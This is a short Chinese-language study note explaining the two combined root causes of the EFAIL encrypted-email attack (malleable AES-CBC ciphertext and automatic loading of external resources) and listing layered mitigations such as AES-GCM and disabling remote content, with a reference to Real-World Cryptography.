**EFAIL 的两个根本原因叠加**：

1. **密文无完整性**：`AES-CBC` 不是 AEAD，攻击者可以篡改密文并让解密"成功"，接收者察觉不到篡改
2. **客户端自动加载外部资源**：邮件客户端解密后自动请求 HTML 中的图片/CSS，将解密后的明文作为 URL 的一部分发出去

修复建议：

| 层面 | 措施 | 说明 |
|------|------|------|
| **算法层** | 改用 `AES-GCM`（AEAD 模式） | RFC 8551 已将 `AES-GCM` 列为 S/MIME v4 推荐算法，提供密文完整性 |
| **客户端层（最有效短期缓解）** | 禁用 HTML 邮件中的外部资源自动加载 | 阻断泄露信道，即使密文被篡改也无法外泄明文 |
| **协议层** | 使用「对称加密」中介绍的 AEAD 模式（详见 [对称加密](../symmetric-encryption/)） | 从根本上消除 CBC oracle |
| **架构层** | 改用基于 Signal 协议的端对端加密即时通信 | 彻底脱离基于 SMTP 的邮件安全假设 |

> ⚠️ 即使你升级到 `AES-GCM`，旧版邮件客户端仍可能降级协商使用 `CBC`。**最可靠的短期防御是：在邮件客户端中关闭"自动加载远程内容"设置**。EFAIL 提醒我们：密码学算法本身可能是安全的，但**算法与系统行为的组合**才是真正的攻击面。

## 📚 参考来源（本笔记增强部分）

- David Wong, *Real-World Cryptography* (Manning, 2021), Chapter 11
- 章节文本：会话工作区 `files/rwc-chapters/ch11.txt`
